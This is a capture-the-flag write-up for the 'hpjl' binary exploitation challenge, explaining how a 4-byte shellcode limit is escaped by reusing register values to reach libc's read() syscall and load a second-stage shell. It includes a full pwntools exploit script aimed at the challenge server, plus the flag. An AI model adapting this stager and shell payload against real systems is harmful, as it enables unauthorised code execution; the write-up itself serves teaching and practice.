



# hpjl

- Published: 12/21/2024 (#21/25 in event)
- Category: Binary exploitation
- Points: 125
- Author: Kolmus

Hope, peace, joy and love. Four bytes for the four candles of advent. Four days and it’s Christmas!

Connect using `nc ctf.csd.lol 2024`.

## Attachments

- [ld-linux-x86-64.so.2](https://files.vipin.xyz/api/public/dl/LeOau0B4/Day%2021%20-%20hpjl/ld-linux-x86-64.so.2)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/CBsugfnm/Day%2021%20-%20hpjl/libc.so.6)
- [4bytes](https://files.vipin.xyz/api/public/dl/s9bFpjrp/Day%2021%20-%20hpjl/4bytes)

## Hints

**Hint 1:**

Use your surroundings to your advantage. If 4 bytes don’t cut it, can you get more?

**Hint 2:**

Look closely at the values already present in the registers at the time your shellcode is executed (gdb). Try setting up
a `read` syscall. Maybe you can also make use of a 5th byte: the terminating `ret`.

## Write-up

<details>
<summary>Reveal write-up</summary>

Let's start by reverse engineering the provided binary.



The main function seems to be mmap()-ing one page of memory to address 0x13370000 as read-write-execute
(`(PROT_WRITE | PROT_READ | PROT_EXEC) == 7`). It then reads 4 bytes from stdin into that buffer and appends `0xc3` and
a null byte. `0xc3` is the opcode for `ret`. The first 3 bytes are then checked to see if they are `0x0f` or `0xcd`,
which are the first byte of the opcode for `syscall` and `int` respectively. If those bytes are not present, the program
will call the buffer as shellcode.

Since 4 bytes are hardly enough to do anything by themselves, we need to find a way to execute more shellcode. Maybe we
can use some of the values that are already present in the registers/memory to our advantage.

After patching the binary to use the provided libc and ld (I use pwninit for this), debugging the program using gdb and
breaking at the start of the shellcode (4 nops in this case), we can see that the registers are as follows:



Our goal will be to somehow make another `read` syscall to read more shellcode into the buffer. For that we need the
registers to be as follows:

```txt
rax = 0
rdi = 0
rsi = 0x13370000 to 0x13371000
rdx = more than 4
```

We also need to make sure execution eventually ends up back at the newly read shellcode. As you can see, all the
registers are already set up to work for a read syscall, the problem now is making the syscall. Since we can't use
`syscall` or `int` directly, we need to find a place in memory that contains a syscall and is reachable from the current
position by using only 4 bytes worth of instructions. One intersting value I noticed is in `rcx`. Disassembling the
function it is part of (libc's read() wrapper) reveals the following:



We're only one instruction off from a syscall! Changing `cl` to `0x5f` will make `rcx` point to a syscall instruction
that's part of libc's `read()`. This also means it will likely not crash if we go there. `mov cl, 0x5f` takes up 2
bytes, leaving us with 2 more. `jmp rcx` is also 2 bytes, but remember that we also still need to bring execution back
to the shellcode at 0x13370000. There is one more thing we can benefit from: the stack combined with the terminating
`ret`. As you know, `ret` pops the return address from the stack and jumps to it. Libc's read() also returns. The idea
is to use 2 `push` instructions to put the address of the shellcode on the stack (`push rdx`), and `rcx` on top of it
(`push rcx`). Then, the `ret` will jump to the read syscall pointed to by `rcx` (allowing us to input as much shellcode
as we like) and after libc's read() finishes, it will jump back to the shellcode. For the second stage, I simply use
pwntools' shellcraft to pop a shell.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./4bytes_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = ['cmd.exe', '/c', 'start', 'cmd.exe', '/c', 'wsl.exe']

ADDR = 'ctf.csd.lol'
PORT = 2024

def debug(p):
    gdb.attach(p)
    input('debugger started. press enter to continue ...')

def conn():
    if args.REMOTE:
        p = remote(ADDR, PORT)
    else:
        p = process([exe.path])
    return p

p = conn()

payload = asm('''
    mov cl, 0x5f
    push rdx
    push rcx
''' + shellcraft.amd64.linux.sh())

#debug(p)
p.sendafter(b':', payload)

p.interactive()
# cat flag.txt
# csd{4LL_1_W4n7_4_CHR15TmaS_iS_4tuN3_4_L1F3}
```

Flag: `csd{4LL_1_W4n7_4_CHR15TmaS_iS_4tuN3_4_L1F3}`

</details>

Write-up by Kolmus
